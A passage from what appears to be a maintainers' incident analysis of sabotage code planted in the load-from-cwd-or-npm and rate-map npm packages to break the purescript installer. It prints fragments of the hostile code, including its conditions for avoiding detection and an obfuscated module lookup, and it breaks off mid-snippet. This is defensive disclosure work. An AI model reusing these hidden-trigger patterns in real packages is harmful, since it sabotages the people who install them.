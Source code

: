 The purpose of this condition appears to be to decide whether or not to
activate the malicious code. As far as I can tell, the `path.endsWith("cli")`
condition is designed to evaluate to `true` on older versions of the purescript
npm installer; before we took over, the `purescript` npm package depended on
the `install-purescript-cli` package, which is maintained by [@shinnn][]; in
the most recent version of `purescript`, this dependency has been replaced with
the `purescript-installer` package, which we maintain. So the purpose of this
condition seems to be to ensure that the malicious code only runs when our
installer is being used (and not [@shinnn][]'s).

The second condition is checking whether there is a `.git` directory alongside
the file. The purpose of this is presumably to avoid activating the malicious
code when the installer is being run out of a git working directory, to make it
harder to reproduce and track down.

The purpose of the `parent` variable at this stage is just to indicate whether
the malicious code should run or not: if the exploit should be run, then
`parent` will be `undefined`, but if it shouldn't, then it will be set to the
string `"npm"`. We then have this if statement:

```javascript
    if (typeof parent !== 'string') {
      return results[2];
    }
```

which just returns the `PassThrough` constructor in the case where the
malicious code is being run; note that there are no other references to
`results[2]` in the source file.

The effect of this is that when we do `loadFromCwdOrNpm("request")`, we get the
`PassThrough` constructor. So when we have code along the lines of

```javascript
const request = loadFromCwdOrNpm("request");
request("https://github.com/.../archive.tar.gz").pipe(...);
```

nothing happens; no HTTP request is performed.

### Exploit version 2: rate-map

`rate-map@1.0.3` includes the same `do`-`while` loop to control whether or not
the exploit runs, although it also includes some interesting modifications.

```javascript
let parent = module;
const {
  existsSync: existsSync,
  readFileSync: readFileSync,
  writeFileSync: writeFileSync
} = require("fs");
do {
  parent = parent.parent;
  try {
    const { path: path } = parent;
    if (
      path.endsWith("cli") ||
      [path, dirname(path)].some(dir => existsSync(resolve(dir, ".git")))
    ) {
      parent = "npm";
      break;
    }
  } catch (_) {}
} while (parent);
if (typeof parent !== "string") {
  const px = require.resolve(
    Buffer.from([100, 108, 45, 116, 97, 114]).toString()
```

[@shinnn]: https://github.com/shinnn
[@doolse]: https://github.com/doolse
[`rate-map`]: https://npmjs.com/package/rate-map
[`load-from-cwd-or-npm`]: https://npmjs.com/package/load-from-cwd-or-npm
[purescript/npm-installer#12]: https://github.com/purescript/npm-installer/issues/12